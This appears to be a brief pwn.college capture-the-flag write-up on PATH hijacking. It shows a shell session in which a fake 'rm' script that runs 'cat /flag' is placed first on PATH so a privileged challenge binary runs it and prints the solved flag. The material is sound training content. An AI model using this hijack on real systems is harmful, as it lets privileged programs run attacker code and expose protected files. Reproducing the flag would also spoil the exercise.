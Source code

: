 # Pondering PATH

## Hijacking Commands

### Solve
**Flag:** `pwn.college{cWFd57DlKwm0yXt_gHG8kxpkts8.QX3cjM1wSN2gjNzEzW}`

I made a shell script for rm and gave permissions to the user. I then added its path to the current directory. Then on running /challenge/run gives the flag. 

```bash
hacker@path~hijacking-commands:~$ echo "cat /flag" > rm
hacker@path~hijacking-commands:~$ chmod ugo+x rm
hacker@path~hijacking-commands:~$ export PATH="$(pwd):$PATH"
hacker@path~hijacking-commands:~$ /challenge/run 
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{cWFd57DlKwm0yXt_gHG8kxpkts8.QX3cjM1wSN2gjNzEzW}
```

### New Learnings
Adding commands to path list. 

### References 
None
